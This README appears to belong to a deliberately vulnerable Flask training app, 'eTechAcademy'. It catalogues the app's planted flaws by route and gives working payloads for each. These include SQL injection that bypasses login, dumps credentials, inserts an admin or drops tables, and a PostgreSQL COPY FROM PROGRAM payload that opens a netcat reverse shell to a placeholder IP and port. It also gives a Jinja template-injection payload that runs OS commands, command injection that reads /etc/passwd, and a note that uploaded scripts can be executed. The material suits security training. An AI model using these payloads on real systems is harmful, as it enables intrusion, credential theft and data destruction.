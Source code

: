 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || ':' || password,role FROM users--
```

Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)

**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples**
Path: `/add_course`
Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --

```

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`
Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`

**Examples:**
```
whoami
cat /etc/passwd
```

### Command Injection via API endpoint
Path: `/endpoint`
Methods: `GET`

**Example**
```
http://127.0.0.1/endpoint?command=whoami
curl -s http://127.0.0.1:8000/endpoint?command=cat+/etc/passwd | jq -r '.status[]'
```

### Unrestricted File Upload
Path: `/upload`
Methods: `GET, POST`

Can upload files to server with any extension. Once uploaded, you can execute the file it is has (*.php, .py, .sh*) extensions or delete the file.
